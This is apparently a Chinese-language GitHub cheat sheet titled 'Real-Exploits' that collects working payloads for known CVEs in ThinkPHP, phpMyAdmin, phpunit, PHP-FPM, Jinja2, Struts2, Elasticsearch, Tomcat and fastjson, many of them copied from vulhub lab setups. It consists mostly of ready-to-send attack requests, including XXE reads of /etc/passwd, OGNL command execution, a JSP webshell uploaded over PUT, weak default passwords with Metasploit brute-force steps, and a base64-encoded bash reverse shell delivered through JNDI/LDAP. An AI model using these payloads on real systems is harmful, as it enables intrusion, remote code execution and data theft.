




# Real-Exploits

> 暂不更新，同步到个人私有仓库
# 大纲

- [PHP](#PHP)
    - [XXE](#XXE)
    - [论坛/CMS框架](#论坛/CMS框架)
        - [Discuz](#Discuz)
            - [wooyun-2010-080723](#wooyun-2010-080723)
        - [thinkphp](#thinkphp)
            - [ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞](#ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞)
            - [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
            - [ThinkPHP-2.x-任意代码执行漏洞](#ThinkPHP-2.x-任意代码执行漏洞)
            - [ThinkPHP5-SQL注入漏洞+敏感信息泄露](#ThinkPHP5-SQL注入漏洞+敏感信息泄露)
    - [phpmyadmin](#phpmyadmin)
        - [CVE-2016-5734](#CVE-2016-5734)
        - [CVE-2018-12613](#CVE-2018-12613)
    - [XDebug-RCE](#XDebug-RCE)
    - [inclusion](#inclusion)
    - [phpunit](#phpunit)
        - [CVE-2017-9841](#CVE-2017-9841)
    - [phpfpm](#phpfpm)
        - [CVE-2019-11043](#CVE-2019-11043)
- [Python](#Python)
    - [Flask](#Flask)
        - [Jinja2](#Jinja2)
    - [Django](#Django)
        - [CVE-2019-14234](#CVE-2019-14234)

- [框架引擎中间件](#框架引擎中间件)
    - [Nginx](#Nginx)
        - [Nginx解析漏洞](#Nginx解析漏洞)
        - [CVE-2013-4547](#CVE-2013-4547)
    - [httpd](#httpd)
        - [Apache—HTTPD-多后缀解析漏洞](#Apache—HTTPD-多后缀解析漏洞)
        - [CVE-2017-15715-Apache换行解析漏洞](#CVE-2017-15715-Apache换行解析漏洞)
    - [Struts2](#Struts2)
        - [s2-009](#s2-009)
        - [s2-012](#s2-012)
        - [s2-013](#s2-013)
        - [s2-015](#s2-015)
        - [s2-045](#s2-045)
        - [s2-048](#s2-048)
        - [s2-052](#s2-052)
        - [s2-053](#s2-053)
        - [s2-057](#s2-057)
    - [Elasticsearch](#Elasticsearch)
        - [CVE-2014-3120](#CVE-2014-3120)
        - [CVE-2015-1427](#CVE-2015-1427)
        - [CVE-2015-3337](#CVE-2015-3337)
    - [Solr](#Solr)
        - [log4j组件](#log4j组件)
    - [tomcat](#tomcat)
        - [CVE-2017-12615](#CVE-2017-12615)
        - [Tomcat8+弱口令+后台getshell漏洞](#Tomcat8+弱口令+后台getshell漏洞)

- [组件](#组件)
    - [fastjson](#fastjson)
        - [漏洞扫描探测](#漏洞扫描探测)
        - [1.2.24-rce](#1.2.24-rce)
        - [1.2.47-rce](#1.2.47-rce)
    - [log4j2](#log4j2)
        - [CVE-2021-44228-log4j2-rce漏洞](#CVE-2021-44228-log4j2-rce漏洞)

- [应用服务](#应用服务)
    - [GlassFish](#GlassFish)
        - [任意文件读取漏洞](#任意文件读取漏洞)
    - [uWSGI](#uWSGI)
        - [CVE-2018-7490](#CVE-2018-7490)
    - [Rails](#Rails)
        - [CVE-2019-5418](#CVE-2019-5418)
    - [PostScript](#PostScript)
        - [Ghostscript](#Ghostscript)
            - [CVE-2018-16509](#CVE-2018-16509)
    - [Jupyter](#Jupyter)
        - [notebook-rce](#notebook-rce)
    - [Imagetragick](#Imagetragick)
        - [CVE-2016–3714](#CVE-2016–3714)
    - [Grafana](#Grafana)
        - [Grafana插件模块目录穿越漏洞](#Grafana插件模块目录穿越漏洞)

- [数据库](#数据库)
    - [Postgres](#Postgres)
        - [CVE-2019-9193](#CVE-2019-9193)


# 大纲

- [操作系统漏洞](#操作系统漏洞)
- [Web服务器漏洞](#Web服务器漏洞)
- [应用服务器漏洞](#应用服务器漏洞)
- [开发框架漏洞](#开发框架漏洞)
- [Web应用漏洞](#Web应用漏洞)
- [CMS漏洞](#CMS漏洞)


- [参考文章](#)
    - https://github.com/vulhub/vulhub
    - https://github.com/ffffffff0x/1earn/blob/c3ee45b00d55a142a63f81da9602a4c9ca75b14e/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md
## PHP

### XXE

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用
`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

```
/dom.php
/SimpleXMLElement.php
/simplexml_load_string.php
```

```
POST /dom.php HTTP/1.1

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```


### thinkphp

#### ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

或者工具一把梭

#### ThinkPHP-5.0.23-Rce

```bash
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

#### ThinkPHP-2.x-任意代码执行漏洞

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

#### ThinkPHP5-SQL注入漏洞+敏感信息泄露

```bash
/?ids[]=1&ids[]=2 # 爆出用户名和密码
?ids[0,updatexml(0,concat(0xa,user()),0)]=1 # 错误回显敏感信息，数据库名
```


### phpmyadmin

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具

phpMyAdmin的登录页面。默认口令：`root:root`


#### CVE-2016-5734

> phpMyAdmin 4.0.x—4.6.2 远程代码执行漏洞（CVE-2016-5734）

在其查找并替换字符串功能中，将用户输入的信息拼接进preg_replace函数第一个参数中。

在PHP5.4.7以前，preg_replace的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

影响版本：
```
4.0.10.16之前4.0.x版本
4.4.15.7之前4.4.x版本
4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）
```

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。

CVE-2016-5734.py(kali虚拟机下运行)
- https://www.exploit-db.com/exploits/40185
```
python3 CVE-2016-5734.py -c 'system(id);' -u root -p root -d test http://node4.buuoj.cn:28303/
```

-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为prgpwn的表。


#### CVE-2018-12613

> phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

```
http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

**写入phpinfo**

找SQL界面执行语句如下：

`SELECT '<?php phpinfo()?>'`



http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_96f5e4daa240a56fb90cbd130ee33ef4

sess为cookie中phpmyadmin的值



**写入shell**

```
SELECT `<?php fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>');?>`;
```

执行后会报错SQL查询错误，接着继续访问tmp sess文件，再去访问a.php


蚁剑添加，密码为a

### XDebug-RCE

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置remote_connect_back = 1：
```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问http://target/index.php?XDEBUG_SESSION_START=phpstorm，目标服务器的XDebug将会连接访问者的IP（或X-Forwarded-For头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

[exp脚本](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)该脚本是一个反向连接的过程，公网的需要VPS

`python3 exp.py -t http://node4.buuoj.cn:26521/ -c 'shell_exec('id');'`


### inclusion

PHP文件包含漏洞中，如果找不到可以包含的文件，我们可以通过包含临时文件的方法来getshell。因为临时文件名是随机的，如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。

[exp.py](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py)

```python2
python exp.py your-ip 8080 100
```

利用脚本exp.py实现了上述过程，成功包含临时文件后，会执行`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`，写入一个新的文件`/tmp/g`，这个文件就会永久留在目标机器上。

包含成功的话

`lfi.php?file=/tmp/g&1=system(%27ls%27);`

- 参考文章
    - https://github.com/vulhub/vulhub/blob/master/php/inclusion/README.zh-cn.md

### phpunit

phpunit是php中的单元测试工具

#### CVE-2017-9841

> phpunit 远程代码执行漏洞（CVE-2017-9841）

- 影响版本：4.8.19 ~ 4.8.27和5.0.10 ~ 5.6.2
- 漏洞详情
    - vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php文件有如下代码：
    ```php
    eval('?>'.file_get_contents('php://input'));
    ```
- 漏洞利用

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
HOST:xxxxx

<?=phpinfo()?>
```


`<?=system('env')?>`

### phpfpm

PHP-FPM(FastCGI Process Manager：FastCGI进程管理器)是一个PHPFastCGI管理器对于PHP5.3.3之前的php来说，是一个补丁包，旨在将FastCGI进程管理整合进PHP包中。

#### CVE-2019-11043

> PHP-FPM 远程代码执行漏洞（CVE-2019-11043）

- 影响版本
    - php 7.1.0 ~ 7.1.33
    - php 7.2.0 ~ 7.2.24
    - php 7.3.0 ~ 7.3.11

- 漏洞详情

    在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

    在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

- 相关工具
    - https://github.com/neex/phuip-fpizdam

- 漏洞利用

```bash
go run . "http://node4.buuoj.cn:27325/index.php"
```


访问`http://xxxxxx/index.php?a=id` 需要多访问几次以访问到被污染的进程。


- 参考文章
    - https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md
## Python
### Flask
#### Jinja2

Flask（Jinja2） 服务端模板注入漏洞

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

在popen输入要执行的命令

env:打印环境变量
id

### Django

#### CVE-2019-14234


## 框架引擎中间件

### Nginx

#### Nginx解析漏洞

- 漏洞描述
    - nginx解析漏洞因为用户配置不当造成的漏洞。
    - 1.jpg/.php、1.jpg/.php，1.jpg会被当成php格式解析

- 漏洞利用

上传图片马
```
http://node4.buuoj.cn:26749/uploadfiles/e07db0b27893a41573453510ee2dceed.png/.php
```

不添加.php的时候为404


#### CVE-2013-4547

> Nginx 文件名逻辑漏洞（CVE-2013-4547）

- 影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7

- 参考文章
    - https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-4547

- 漏洞利用
    - 上传页面，首先上传kite.png图片马


注意kite.png后面要加个空格

第二步访问`http://your-ip:8080/uploadfiles/1.gif[0x20][0x00].php`

其中`[0x20][0x00]`需要在burpsuite的hex改
### httpd

#### Apache—HTTPD-多后缀解析漏洞

- 影响版本：2.4.0 < HTTPD <2.4.29

- 参考文章
    - https://github.com/vulhub/vulhub/tree/master/httpd/apache_parsing_vulnerability

- 漏洞详情
    - 在有多个后缀的情况下，只要一个文件含有.php后缀的文件即将被识别成PHP文件，没必要是最后一个后缀。利用这个特性，将会造成一个可以绕过上传白名单的解析漏洞。

- 漏洞利用


#### CVE-2017-15715-Apache换行解析漏洞

- 影响版本：2.4.0 < HTTPD <2.4.29

- 漏洞详情
    - 在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

- 参考文章
    - https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2017-15715
### Struts2

探测工具：https://github.com/shack2/Struts2VulsTools

支持的范围：S2-057,S2-048,S2-046,S2-045,S2-016,S2-019,S2-037,S2-032

S2-046以后的洞难以扫出来，需要自己寻找利用点，简单来说没有通用的链

其它利用工具
- https://github.com/HatBoy/Struts2-Scan - Python3 Struts2 全漏洞扫描利用工具

#### s2-009
影响版本: 2.1.0 - 2.3.1.1


id
```
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

env
```
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27env%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```


#### s2-012

影响版本：2.1.0 - 2.3.13

payload:(读取etc/passwd文件)
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

打印env环境变量
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

#### s2-013

#### s2-015

影响版本: 2.0.0 - 2.3.14.2
#### s2-045

#### s2-048

影响版本: 2.0.0 - 2.3.32

漏洞利用工具：https://github.com/dragoneeg/Struts2-048

`python Struts048.py http://node4.buuoj.cn:28719/integration/saveGangster.action`

`python Struts048.py http://node4.buuoj.cn:28719/integration/saveGangster.action whoami`


#### s2-052

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

启用 Struts REST 插件并使用 XStream 组件对 XML 进行反序列操作时，未对数据内容进行有效验证，可被攻击者进行远程代码执行攻击(RCE)。

漏洞测试工具:
- https://github.com/mazen160/struts-pwn_CVE-2017-9805

```
Python struts-pwn.py --exploit --url "http://node4.buuoj.cn:26796/orders/4/edit" -c "wget ip:port"
```

#### s2-053

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

漏洞复现：(以下是一个提交页面)

http://your-ip:8080/hello.action

输入如下payload：

```这里是需要回车的
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```


#### S2-057

影响版本:<= Struts 2.3.34, Struts 2.5.16

payload
```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

```

http://node3.buuoj.cn:29922/struts2-showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27env%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
```


### Elasticsearch

#### CVE-2014-3120

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```


执行任意代码
```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```


#### CVE-2015-1427

ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：


```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```


然后发送包含payload的数据包，执行任意命令：
```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```


#### CVE-2015-3337

在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

影响版本：1.4.5以下/1.5.2以下

http://node4.buuoj.cn:25305/_plugin/head/

可以看到前端的一种插件

以下不要在浏览器访问
```
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: node4.buuoj.cn:25305
....
```


### solr
#### log4j组件

Apache Solr Log4j组件 远程命令执⾏漏洞

payload：
```
/solr/admin/collections? action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

### tomcat

#### CVE-2017-12615
> Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

影响版本：Apache Tomcat 7.0.0 ~ 7.0.81
影响平台：Windows

传一个webshell
```
PUT /shell.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

/shell.jsp?cmd=whoami&pwd=023


备注：我尝试了冰蝎，也是可以的

其它payload：

在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名
```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```

参考文章：
- https://blog.csdn.net/qq_36241198/article/details/114883818

#### Tomcat8+弱口令+后台getshell漏洞

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

tomcat弱口令:（其它需要抓包爆破，可用xray爆破）
```
admin/admin
tomcat/tomcat
tomcat/admin
admin/123456
```

**msf弱口令爆破**
```
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.52.130
set rport 8080
run
```


上传由1.jsp压缩后的1.zip改为后缀的1.war包

访问http://xxxx/1/1.jsp


参考文章：
- https://www.cnblogs.com/qianxinggz/p/13440366.html


## 组件

### fastjson

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

#### 漏洞扫描探测

- https://github.com/Maskhe/FastjsonScan

需要post参数，没有参数的情况下填写（以下两种都可，否则为notsupport）
```
{}
params=1
```
#### 1.2.24-rce

方法同理1.2.27，payload不一样

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

#### 1.2.27-rce

影响版本：fastjson <= 1.2.47

**JNDI注入**

相关工具：https://github.com/welk1n/JNDI-Injection-Exploit

反弹shell需要先编码成base64

在线java编码网站：[java.lang.Runtime.exec() Payload Workarounds](https://www.jackson-t.ca/runtime-exec-payloads.html)

如：`sh -i >& /dev/tcp/111.111.111.111/8888 0>&1`需要先拖进去编码

首先要启动一个 RMI 或者 LDAP 服务：在VPS上执行
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "<payload>" -A <vps>
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjExNy41MS4yNTMvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A 111.111.111.111
```


监听8888端口:

```
nc -lvnp 8888
```

目标站点抓包发送如下payload，header需要添加POST的`Content-Type: application/json`
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://111.111.111.111:1389/yomh4h",
        "autoCommit":true
    }
}
```


### Rails

